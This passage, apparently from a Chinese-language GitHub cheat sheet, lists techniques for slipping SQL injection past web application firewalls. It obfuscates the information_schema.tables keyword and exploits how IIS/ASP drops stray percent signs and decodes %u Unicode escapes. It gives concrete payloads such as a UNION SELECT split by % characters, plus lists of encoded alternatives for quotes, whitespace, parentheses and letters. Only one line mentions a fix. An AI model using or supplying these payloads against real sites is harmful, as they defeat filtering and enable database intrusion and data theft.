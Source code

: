 ### 表名等关键字被过滤
以information_schema.tables为例

空格` information_schema . tables`
着重号` information</em>schema.tables`
注释符 `/*!informationschema.tables*/`
别名` information_schema.(partitions),(statistics),(keycolumnusage),(table_constraints)`

# 容器特性绕过

## %特性
asp+iis的环境中，当我们请求的url中存在单一的百分号%时，iis+asp会将其忽掉

```
id=1' union se%lect user f%rom ddd;
id=1' union select user from ddd //实际传到数据库的语句
```
修复方式应该就是检测这种百分号%的周围是否能拼凑成恶意的关键字吧。

## %u特性
iis支持unicode的解析，当我们请求的url存在unicode字符的话iis会自动将其转换

```
name=%u54c8%u54c8
name=哈哈  //传入到数据库的语句
```

这个特性还存在另一个case，就是多个widechar会有可能转换为同一个字符。

```
s%u0065lect->select  //使用转换工具查看是e
s%u00f0lect->select  //使用转换工具查看是希腊字符
```

WAF对`%u0065`会识别出这是e，组合成select关键字，但有可能识别不出`%u00f0`,而这个会被iss当作e

还有很多类似的

字母a：
%u0000
%u0041
%u0061
%u00aa
%u00e2
单引号：
%u0027
%u02b9
%u02bc
%u02c8
%u2032
%uff07
%c0%27
%c0%a7
%e0%80%a7
空白：
%u0020
%uff00
%c0%20
%c0%a0
%e0%80%a0
左括号(：
%u0028
%uff08
%c0%28
%c0%a8